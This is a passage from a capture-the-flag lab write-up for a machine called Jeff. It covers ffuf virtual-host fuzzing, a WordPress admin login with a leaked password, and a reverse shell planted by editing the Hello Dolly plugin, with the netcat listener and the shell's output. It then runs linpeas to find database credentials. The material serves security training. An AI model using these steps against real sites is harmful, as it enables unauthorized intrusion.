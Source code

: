 * `-H` "Host: FUZZ.jeff.thm": This option sets a custom header to the request. It uses the FUZZ keyword, which will be replaced by the values from the wordlist during the fuzzing process. The header being set in this case is Host, with the value FUZZ.jeff.thm. So, FUZZ will be replaced with each word from the wordlist during the fuzzing.
* `-ac`: This option stands for "Auto-Calibration." It tells ffuf to automatically calibrate the number of connections to optimize the fuzzing speed.

BINGO! I can continue from here.

<div><p align="center"><img  src="img/wordpress.png" /></div>

I went to the `wp-admin` page and logged in using the password found in the .bak file. Since I'm authenticated, I tried to load a reverse shell by inserting some php code in the index.php page, but it was not possible. There must be some restriction preventing me from editing the php.

<div><p align="center"><img  src="img/update_fail.png" /></div>

I looked for other ways to upload PHP code and found the installed plugins section. One of the installed plugins is "hello dolly", I think it's a default plugin, so I modified the code of the `hello.php` page and managed to load my reverse shell.

<div><p align="center"><img  src="img/update_ok.png" /></div>

Finally I activated the plugin in the "Installed plugin" page, on my terminal I listened with netcat, and I got the connection.

```
$ rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.9.15.73] from (UNKNOWN) [10.10.255.36] 58852
Linux Jeff 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 GNU/Linux
 14:31:54 up 5 min,  0 users,  load average: 0.04, 0.22, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
On the victim machine I ran linpeas, which highlighted the hardcoded database credentials in a `/var/www/html/wp-config.php`.
```
╔══════════╣ Analyzing Wordpress Files (limit 70)
```